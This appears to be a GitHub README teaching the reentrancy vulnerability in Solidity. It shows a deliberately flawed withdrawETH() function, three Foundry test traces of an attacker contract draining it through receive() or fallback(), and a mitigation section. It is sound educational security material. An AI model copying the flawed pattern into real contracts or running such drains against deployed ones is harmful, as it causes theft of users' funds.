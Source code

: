 # SC05 - Reentrancy Attacks	

Reentrancy attacks exploit the ability to reenter a vulnerable function before its execution is complete. This can lead to repeated state changes, often resulting in drained contract funds or broken logic.


In this scenario, we are dealing with International Bank: an online and international banking system that allows a user to `depositETH()`, `withdrawETH()` and `getContractBalance()`.
An issue arises within our `withdrawETH()` function:
```javascript
function withdrawETH() public {
        uint256 userBalance = userToETHDepositedBalance[msg.sender];
        require(userBalance > 0, "You do not have enough balance to withdraw. Please deposit first.");
        (bool success,) = msg.sender.call{value: userBalance}("");
        require(success, "Transfer failed.");

        userToETHDepositedBalance[msg.sender] = 0;
    }
```

We can see that the function makes the external call to the user/contract wallet to transfer their ETH back to them and THEN it updates the state variable within the contract. This way, an attacker could initialize a `fallback()` or `receive()` function within their receiving logic that will get triggered by the `call` from the InternationalBank logic which will allow them to keep re-entering the withdraw function and absorb all of the contract funds before the state variable that's holding each user's balance gets updated to zero.

In this repo, I have created three example for this vulnerability:
- Example 1: The `withdrawETH()` function makes an external call with no calldata; The attacker contract has both a `receive()` and `fallback()` functions implemented. This will trigger the `receive()` function within the receiving contract:
```javascript
$ forge test -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/WorkflowTest.t.sol:WorkflowTest
[PASS] testAttackerCanStealAllETH() (gas: 114525)
Traces:
  [134425] WorkflowTest::testAttackerCanStealAllETH()
    ├─ [0] VM::deal(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88])
    │   └─ ← [Return] 
    ├─ [22435] InternationalBank::depositETH{value: 5000000000000000000}()
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [81041] Attacker::Steal{value: 1000000000000000000}()
    │   ├─ [22435] InternationalBank::depositETH{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [48831] InternationalBank::withdrawETH()
@>    │   │   ├─ [41386] Attacker::receive{value: 1000000000000000000}()
    │   │   │   ├─ [40614] InternationalBank::withdrawETH()
    │   │   │   │   ├─ [33169] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [32397] InternationalBank::withdrawETH()
    │   │   │   │   │   │   ├─ [24952] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   ├─ [24180] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   ├─ [16735] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [15963] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   ├─ [8518] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [7746] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [301] Attacker::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(6000000000000000000 [6e18], 6000000000000000000 [6e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 15.52ms (3.04ms CPU time)

Ran 1 test suite in 73.30ms (15.52ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```diff
+    │   │   ├─ [41386] Attacker::receive{value: 1000000000000000000}()
```

- Example 2: The `withdrawETH()` function makes an external call with no calldata; The attacker contract has only a `fallback()` function implemented. This will trigger the `fallback()` function within the receiving contract:
```javascript
$ forge test -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/WorkflowTest.t.sol:WorkflowTest
[PASS] testAttackerCanStealAllETH() (gas: 114435)
Traces:
  [134335] WorkflowTest::testAttackerCanStealAllETH()
    ├─ [0] VM::deal(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88])
    │   └─ ← [Return] 
    ├─ [22435] InternationalBank::depositETH{value: 5000000000000000000}()
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [80951] Attacker::Steal{value: 1000000000000000000}()
    │   ├─ [22435] InternationalBank::depositETH{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [48741] InternationalBank::withdrawETH()
@>    │   │   ├─ [41296] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   ├─ [40539] InternationalBank::withdrawETH()
    │   │   │   │   ├─ [33094] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [32337] InternationalBank::withdrawETH()
    │   │   │   │   │   │   ├─ [24892] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   ├─ [24135] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   ├─ [16690] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [15933] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   ├─ [8488] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [7731] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [286] Attacker::fallback{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(6000000000000000000 [6e18], 6000000000000000000 [6e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 860.25µs (245.63µs CPU time)

Ran 1 test suite in 7.97ms (860.25µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```diff
+    │   │   ├─ [41296] Attacker::fallback{value: 1000000000000000000}()
```

- Example 3: The `withdrawETH()` function makes an external call with calldata; The attacker contract has a `fallback()` and `receive()` functions implemented. This will trigger the `fallback()` function within the receiving contract in the case of the calldata not matching any function selector on the called contract. However, if the calldata does match a function selector, then that function will be called instead of `fallback()` (do note that the function selector to be called is the first 4 bytes of the kaccak-256 hash of the calldata):
```javascript
$ forge test -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/WorkflowTest.t.sol:WorkflowTest
[PASS] testAttackerCanStealAllETH() (gas: 115305)
Traces:
  [135205] WorkflowTest::testAttackerCanStealAllETH()
    ├─ [0] VM::deal(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88], 10000000000000000000 [1e19])
    │   └─ ← [Return] 
    ├─ [0] VM::prank(Kujen: [0xB3D7990B15A8e4707330Ad9f56658E854fa21F88])
    │   └─ ← [Return] 
    ├─ [22435] InternationalBank::depositETH{value: 5000000000000000000}()
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(5000000000000000000 [5e18], 5000000000000000000 [5e18]) [staticcall]
    │   └─ ← [Return] 
    ├─ [81821] Attacker::Steal{value: 1000000000000000000}()
    │   ├─ [22435] InternationalBank::depositETH{value: 1000000000000000000}()
    │   │   └─ ← [Stop] 
    │   ├─ [49611] InternationalBank::withdrawETH()
@>    │   │   ├─ [42131] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   ├─ [41264] InternationalBank::withdrawETH()
    │   │   │   │   ├─ [33784] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   ├─ [32917] InternationalBank::withdrawETH()
    │   │   │   │   │   │   ├─ [25437] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   ├─ [24570] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   ├─ [17090] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   │   │   ├─ [16223] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   ├─ [8743] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   │   │   │   │   ├─ [7876] InternationalBank::withdrawETH()
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [396] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(6000000000000000000 [6e18], 6000000000000000000 [6e18]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 865.30µs (262.21µs CPU time)

Ran 1 test suite in 729.78ms (865.30µs CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
```diff
+    │   │   ├─ [42131] Attacker::52616e64{value: 1000000000000000000}(6f6d2063616c6c64617461)
```


# Mitigation

In order to mitigate this vulnerability, we have to make sure that the state variable that would prevent the attacker from re-calling the `withdrawETH()` function over and over again is put just before the external function call itself.
So in general, make sure you put any condition or state variable change that would be crucial to determining whether a function could be re-entered or not, just before the external function call itself!